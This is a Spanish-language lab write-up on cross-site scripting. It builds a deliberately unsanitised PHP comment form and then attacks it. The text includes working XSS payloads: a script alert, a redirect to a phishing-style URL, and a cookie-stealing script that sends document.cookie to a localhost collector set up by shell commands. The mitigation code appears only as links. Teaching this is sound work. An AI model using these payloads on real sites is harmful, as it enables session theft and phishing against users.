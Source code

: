 # Explotación y mitigación de Cross-Site Scripting (XSS)

## Objetivos

> [1. Conocer las diferentes formas de ataques XSS](#1-conocer-las-diferentes-formas-de-ataques-xss)  
> [2. Realizar varios ataques XSS](#2-realizar-varios-ataques-xss)  
> [3. Implementar modificaciones al código para mitigar los ataques XSS](#3-implementar-modificaciones-al-código-para-mitigar-los-ataques-xss)  

-----

## 1. Conocer las diferentes formas de ataques XSS

Los ataques **XSS (Cross-Site Scripting)** son un tipo de vulnerabilidad en sitios web donde un atacante inyecta código malicioso (normalmente JavaScript) en una página que otros usuarios van a visitar.
El objetivo suele ser robar cookies, sesiones, datos del usuario o redirigir a sitios maliciosos.
Los tipos de ataques XSS mas comunes son:

+ ***XSS reflejado***: el script va en una URL y se ejecuta cuando el usuario accede al enlace.
+ ***XSS almacenado***: el script queda guardado en el servidor (como en un comentario) y se ejecuta cuando alguien ve la página.
+ ***XSS DOM-based***: el script se ejecuta por culpa de cómo la propia página maneja el contenido con JavaScript.


## 2. Realizar varios ataques XSS

Vamos a realizar diferentes pruebas en las que realizamos ataques de XSS a sitios inseguros:

Comenzamos creando un fichero '[comment.php](./Recursos/comment.php)' en nuestro servicio de apache con un pequeño formulario, y sin realizar ningun tipo de validación ni sanitización de la entrada:

![php1](./Imagenes/1.png)

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado: [comentario]".

![php1](./Imagenes/2.png)

Si en lugar de introducir un comentario introducimos código *Javascript*, al mostrarse en la página el comentario, el navegador va a interpretar ese código:

Vamos a introducir el siguiente código:

`<script>alert('XSS ejecutado!')</script>`

El navegador lo interpreta y muestra una ventana emergente:

![php1](./Imagenes/3.png)

También podemos redirigir a una página de *Phishing* con el siguiente código:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![php1](./Imagenes/4.png)

Ahora vamos a crearnos un fichero en nuestro servicio web para que se almacenen las *coookies* de los usuarios:

```
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```
Y en el fichero ***index.php*** introducimos el código de [Este archivo](./Recursos/index.php)

Ahora si introducimos el siguiente código Javascript en el formulario:

```
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```
Va a mandar las cookies a nuestro fichero ***index.php***:

![php1](./Imagenes/5.png)

![php1](./Imagenes/6.png)

## 3. Implementar modificaciones al código para mitigar los ataques XSS

En este apartado vamos a implementar modificaciones en el código php del formulario, que filtren y sanitizen la entrada del usuario, para evitar estos ataques de XSS:

### filter_input() para filtrar caracteres:

Creamos el documento [comment1.php](./Recursos/comment1.php)

### htmlspecialchars() para sanitizar la entrada:

Creamos el documento [comment2.php](./Recursos/comment2.php)

### Validar la entrada:

Creamos el documento [comment3.php](./Recursos/comment3.php)

## Protección contra inyecciones HTML y JS (XSS)


## Protección contra ataques CSRF


## Formulario seguro
 Creamos el documento [comment4.php](./Recursos/comment4.php) con todas las mitigaciones anteriores.
